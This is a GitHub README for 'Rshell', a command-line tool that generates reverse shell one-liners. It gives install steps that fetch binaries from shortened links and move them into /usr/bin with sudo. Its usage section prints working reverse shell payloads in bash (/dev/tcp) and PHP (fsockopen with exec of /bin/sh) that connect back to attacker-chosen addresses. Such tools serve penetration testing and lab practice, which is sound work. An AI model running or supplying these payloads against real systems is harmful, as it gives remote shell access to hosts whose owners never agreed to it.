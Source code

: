 # Rshell

Rshell is a automatic reverse shell generator

## Installation

Install [here](/releases/releases), or just execute this:

```bash
wget https://git.io/Jt5k5 -O rshell # to amd64
wget https://git.io/Jt5kA -O rshell # to i386
sudo mv rshell /usr/bin
```

or compile with source code, is easy, trust im my

```bash
git clone https://github.com/R3tr074/rshell
cd rshell
make && sudo make install
```

I say, easy

## Usage

```bash
$ rshell
bash -i >& /dev/tcp/127.0.0.1/1111 0>&1

$ export RHOST="10.10.10.10"
$ export RPORT="4545"
$ rshell
bash -i >& /dev/tcp/10.10.10.10/4545 0>&1

$ rshell -s php -p 1515
php -r '$sock=fsockopen("10.10.14.54",1515);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://github.com/R3tr074/rshell/blob/master/LICENCE)

## Problems

Some problem you can [create a issues](https://github.com/R3tr074/rshell/issues) or get in touch with [me](https://github.com/R3tr074#-get-in-touch)
